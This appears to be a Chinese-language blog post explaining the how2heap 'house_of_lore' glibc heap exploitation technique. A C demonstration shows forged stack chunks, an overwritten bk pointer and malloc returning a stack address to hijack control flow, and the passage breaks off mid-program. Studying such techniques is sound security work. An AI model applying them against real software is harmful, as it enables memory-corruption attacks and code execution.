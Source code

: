 ```yaml
---
layout: post
title: how2heap 2
slug: how2heap 2
category: Heap Exploitation
published: true
---
```


[how2heap](https://github.com/shellphish/how2heap)

## house_of_lore

这个例子主要是通过伪造chunk、fd和bk指针，使栈上的地址被安排到smallbin中，再通过malloc和memcpy来伪造数据，更改返回地址。

```c
void jackpot(){
    fprintf(stderr, "Nice jump d00d\n"); exit(0);
}

int main(int argc, char * argv[]){

    // 1
    intptr_t* stack_buffer_1[4] = {0};
    intptr_t* stack_buffer_2[3] = {0};
    intptr_t *victim = malloc(0x100);

    // victim-WORD_SIZE because we need to remove the header size in order to have the absolute address of the chunk
    intptr_t *victim_chunk = victim-2;

    stack_buffer_1[0] = 0;
    stack_buffer_1[1] = 0;
    stack_buffer_1[2] = victim_chunk;

    stack_buffer_1[3] = (intptr_t*)stack_buffer_2;
    stack_buffer_2[2] = (intptr_t*)stack_buffer_1;

    // 2
    void *p5 = malloc(1000);
    fprintf(stderr, "Allocated the large chunk on the heap at %p\n", p5);

    fprintf(stderr, "Freeing the chunk %p, it will be inserted in the unsorted bin\n", victim);
    free((void*)victim);

    void *p2 = malloc(1200);

    //------------VULNERABILITY-----------

    fprintf(stderr, "Now emulating a vulnerability that can overwrite the victim->bk pointer\n");

    // 3
    victim[1] = (intptr_t)stack_buffer_1; // victim->bk is pointing to stack

    //------------------------------------

    fprintf(stderr, "Now allocating a chunk with size equal to the first one freed\n");
    fprintf(stderr, "This should return the overwritten victim chunk and set the bin->bk to the injected victim->bk pointer\n");

    // 4
    void *p3 = malloc(0x100);

```